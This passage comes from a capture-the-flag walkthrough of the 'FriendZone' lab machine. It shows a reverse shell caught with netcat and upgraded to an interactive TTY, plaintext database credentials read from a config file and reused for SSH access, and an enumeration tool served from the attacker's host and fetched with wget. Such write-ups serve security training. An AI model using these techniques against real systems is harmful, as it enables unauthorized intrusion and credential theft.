 ```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
This next step is not necessary but I did it just to give myself a more responsive shell
```
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@FriendZone:/$ ^Z
[1]+  Stopped                 nc -lvnp 10000
# stty raw -echo; fg
nc -lvnp 10000

www-data@FriendZone:/$
```
Now we have a shell with tab complete. At this point you can go to <b>/home/friend/</b> and read the <b>user.txt</b> file. I do some basic enumeration and eventually find a <b>mysql_data.conf</b> in <b>/var/www</b>.
```
ls /var/www
admin       friendzoneportal       html             uploads
friendzone  friendzoneportaladmin  mysql_data.conf
```
If we read the file we see some credentials.
```
# cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```
Even though the credentials say they are for a mysql database I decided to try them in ssh. Turns out they worked.
```
# ssh friend@10.10.10.123
The authenticity of host '10.10.10.123 (10.10.10.123)' can't be established.
ECDSA key fingerprint is SHA256:/CZVUU5zAwPEcbKUWZ5tCtCrEemowPRMQo5yRXTWxgw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.123' (ECDSA) to the list of known hosts.
friend@10.10.10.123's password:
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

You have mail.
Last login: Thu Jan 24 01:20:15 2019 from 10.10.14.3
friend@FriendZone:~$
```
I first ran some Enum scripts but didnt get much from them so I decided to use an tool called <b>pspy</b>. I copied the file over to the box using a <b>python SimpleHTTPServer</b>. I start the server on my host machine in the same directory as <b>pspy</b>.
```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```
Then I use <b>wget</b> on the box to download it.
```
friend@FriendZone:/tmp$ wget 10.10.14.21/lse.sh
--2019-09-19 22:07:31--  http://10.10.14.21/lse.sh
Connecting to 10.10.14.21:80... connected.
```